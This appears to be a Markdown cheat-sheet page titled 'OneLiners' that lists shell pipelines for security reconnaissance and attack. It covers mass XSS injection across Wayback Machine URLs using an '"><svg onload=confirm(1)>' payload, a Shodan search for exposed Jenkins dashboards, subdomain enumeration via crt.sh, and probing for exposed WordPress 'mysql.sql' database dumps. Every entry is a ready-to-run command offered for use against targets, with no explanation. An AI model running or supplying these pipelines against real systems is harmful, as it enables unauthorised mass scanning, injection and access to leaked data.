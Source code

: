 ```yaml
---
title: OneLiners
icon: fas fa-info-circle
order: 3
---
```


###Mass XSS via wayback machine<br>
``gau http://target.com | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``<br>
```gau google.com | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'```


###Mass IPs listing Via Shodan<br>
```shodan search --limit 1000 'http.title:"Dashboard [Jenkins]"' | awk  '{print $1,":"$2}' | sed 's/ //' | httpx -silent | tee /root/Desktop/shodan.txt```


###Subdomain from crt.sh<br>
```curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | tee /root/Desktop/crt.txt```

###wordpress mysql <br>
```sublist3r -d target.com | httpx -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -ports 80,443,8080,8443```


